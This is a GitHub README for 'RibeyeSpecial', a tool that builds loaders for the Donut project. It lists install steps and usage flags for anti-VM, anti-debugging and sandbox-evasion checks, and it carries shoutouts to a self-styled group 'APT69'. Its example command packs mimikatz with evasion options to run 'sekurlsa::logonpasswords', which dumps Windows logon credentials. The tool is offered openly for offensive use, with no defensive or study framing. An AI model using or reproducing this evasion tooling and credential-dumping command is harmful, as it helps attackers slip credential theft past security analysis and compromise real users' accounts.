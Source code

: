 # RibeyeSpecial
medium-rare

A loader builder for TheWover's Donut Project. Will support all sort of stuff and have more features as time goes on!
https://twitter.com/specialhoang

https://twitter.com/tomahawkapt69 (At least I remember to clout the group unlike a certain coconut https://twitter.com/nixbyte/status/1189288814465998848)

## Install
1. Download latest https://github.com/apt69/RibeyeSpecial/releases
2. Make sure RibeyeSpecial.exe, RibeyeBone64.exe, and RibeyeBone32.exe are in the same folder

## Usage

```
C:\Users\APT69\Desktop>RibeyeSpecial.exe -h

USAGE:

   RibeyeSpecial.exe  [-c] [-r] [-d] [-a] [-m] [-p] [-s] [-v] [-e] [-g
                      <string>] [-t <integer>] -o <string> -f <string> [--]
                      [--version] [-h]


Where:

   -c,  --core
     Check CPU core count, anti VM

   -r,  --ram
     Check RAM size, anti VM

   -d,  --debugger
     Check if we are being debugged, anti debug

   -a,  --accel
     Check if sleep is being accelerated, evade sandbox

   -m,  --mouse
     Check mouse movement, evade sandbox

   -p,  --prime
     Prime calculation to evade sandbox

   -s,  --sleep
     Sleep to evade sandbox

   -v,  --vm
     Detect VM using CPUID

   -e,  --all
     Enable all checks with default values

   -g <string>,  --param <string>
     Parameter to pass to payload

   -t <integer>,  --sleeptime <integer>
     How long to sleep for (in ms) if -s is enabled

   -o <string>,  --output <string>
     (required)  Output file name

   -f <string>,  --file <string>
     (required)  Path to file to execute

   --,  --ignore_rest
     Ignores the rest of the labeled arguments following this flag.

   --version
     Displays version information and exits.

   -h,  --help
     Displays usage information and exits.


   Shoutout to APT69 and the brothers that are in it.
   https://twitter.com/TomahawkApt69
```
### Example
```
C:\Users\APT69\Desktop>RibeyeSpecial.exe -f mimikatz.exe -o test.exe -p -s -t 6000 -g "sekurlsa::logonpasswords"
```
